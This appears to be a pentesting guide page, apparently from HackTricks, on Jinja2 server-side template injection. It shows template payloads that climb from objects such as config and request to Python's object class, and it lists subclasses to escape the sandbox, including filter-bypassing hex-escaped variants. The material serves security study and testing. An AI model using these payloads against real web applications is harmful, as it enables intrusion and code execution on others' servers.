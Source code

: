 [Jinja2 SSTI](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti)

First of all, in a **Jinja injection** you need to **find a way to escape from the sandbox** and recover access the regular python execution flow. To do so, you need to **abuse objects** that are **from** the **non-sandboxed environment but are accessible from the sandbox**.

[**#Accessing Global Objects**]

For example, in the code `render_template("hello.html", username=username, email=email)` the objects username and email **come from the non-sanboxed python env** and will be **accessible** inside the **sandboxed env.** Moreover, there are other objects that will be **always accessible from the sandboxed env**, these are:
```
[]
''
()
dict
config
request
```

[**#Recovering <class 'object'>**]

Then, from these objects we need to get to the class: `**<class 'object'>**` in order to try to **recover** defined **classes**. This is because from this object we can call the `**__subclasses__**` method and **access all the classes from the non-sandboxed** python env.

In order to access that **object class**, you need to **access a class object** and then access either `**__base__**`, `**__mro__()[-1]**` or `.``**mro()[-1]**`. And then, **after** reaching this **object class** we **call** `**__subclasses__()**`.

Check these examples:
```
# To access a class object
[].__class__
''.__class__
()["__class__"] # You can also access attributes like this
request["__class__"]
config.__class__
dict #It's already a class

# From a class to access the class "object". 
## "dict" used as example from the previous list:
dict.__base__
dict["__base__"]
dict.mro()[-1]
dict.__mro__[-1]
(dict|attr("__mro__"))[-1]
(dict|attr("\x5f\x5fmro\x5f\x5f"))[-1]

# From the "object" class call __subclasses__()
{{ dict.__base__.__subclasses__() }}
{{ dict.mro()[-1].__subclasses__() }}
{{ (dict.mro()[-1]|attr("\x5f\x5fsubclasses\x5f\x5f"))() }}

{% with a = dict.mro()[-1].__subclasses__() %} {{ a }} {% endwith %}

# Other examples using these ways
{{ ().__class__.__base__.__subclasses__() }}
{{ [].__class__.__mro__[-1].__subclasses__() }}
{{ ((""|attr("__class__")|attr("__mro__"))[-1]|attr("__subclasses__"))() }}
{{ request.__class__.mro()[-1].__subclasses__() }}
{% with a = config.__class__.mro()[-1].__subclasses__() %} {{ a }} {% endwith %}



```